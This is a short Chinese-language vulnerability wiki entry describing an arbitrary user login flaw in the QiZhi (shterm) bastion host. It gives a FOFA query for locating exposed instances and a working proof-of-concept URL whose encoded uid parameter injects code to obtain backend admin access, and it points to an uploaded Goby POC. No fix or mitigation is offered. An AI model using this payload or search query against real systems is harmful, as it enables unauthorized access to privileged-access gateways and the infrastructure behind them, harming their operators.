 # 齐治堡垒机-任意用户登录漏洞

## 漏洞描述

齐治堡垒机 存在任意用户登录漏洞，访问特定的Url即可获得后台权限

## 漏洞影响

> [!NOTE]
>
> 齐治堡垒机

## FOFA

> [!NOTE]
>
> app="齐治科技-堡垒机"

## 漏洞复现

漏洞POC为

```
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

![](齐治堡垒机-任意用户登录漏洞.assets/1627363159923157.jpg)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> shterm(QiZhi) Fortress Arbitrary User Login

![](齐治堡垒机-任意用户登录漏洞.assets/162736316028076.jpg)